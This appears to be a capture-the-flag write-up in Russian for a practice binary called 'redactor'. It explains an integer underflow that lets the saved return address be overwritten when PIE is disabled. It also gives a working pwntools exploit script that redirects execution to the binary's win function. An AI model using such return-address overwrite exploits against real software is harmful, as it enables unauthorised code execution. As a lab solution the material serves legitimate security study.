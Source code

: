 # Solution
Уязвимость integer undeflow. Если `textLength` будет меньше чем `placeholderLength`, то `index`, смещение относительно `text` может быть произвольнымм, значит мы можем переписать сохранённый адресс возврата. PIE отключен, по этому адрес функции win будет постоянным.

```py
from pwn import *

io = process("redactor")

io.sendlineafter(b"Enter some text: ", b"A")
io.sendlineafter(b"Enter a placeholder: ", p64(ELF("redactor").sym.win))
io.sendlineafter(b"Enter the index of the stuff to redact: ", str(0x218).encode())

io.interactive()
```